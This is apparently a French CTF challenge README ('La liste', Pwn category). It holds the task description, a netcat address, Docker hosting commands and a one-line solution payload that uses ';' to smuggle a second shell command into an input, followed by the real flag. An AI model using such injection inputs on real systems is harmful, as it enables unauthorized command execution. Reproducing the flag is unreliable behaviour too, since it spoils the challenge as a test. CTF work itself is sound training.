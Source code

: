 # La liste (INTRO)

## Auteur(s)
`Senkei`

## Catégorie
`Pwn`

## Description:
Les enseignants de ton université veulent se débarrasser de toi. Trouve la raison pour prouver que tu n'as rien fait !

`nc 161.35.21.37 40011`

**Flag** : `UHOCTF{Fake_flag}`

---

## Solution

Voici mon payload :)

```text
. raison.txt ; cat raison.txt

```

**Flag** - `UHOCTF{N0n_J3_RigolE_Tu_Peux_Resterehe}`

## Hosting

```bash
sudo docker build -t laliste .
sudo docker network create -d bridge laliste
```

The command to start the challenge is:

```bash
sudo docker run -p 40011:40011 --detach --name laliste --network laliste laliste:latest
```

The command to stop the challenge (since CTRL+C won't work) is:

```bash
sudo docker stop laliste
```
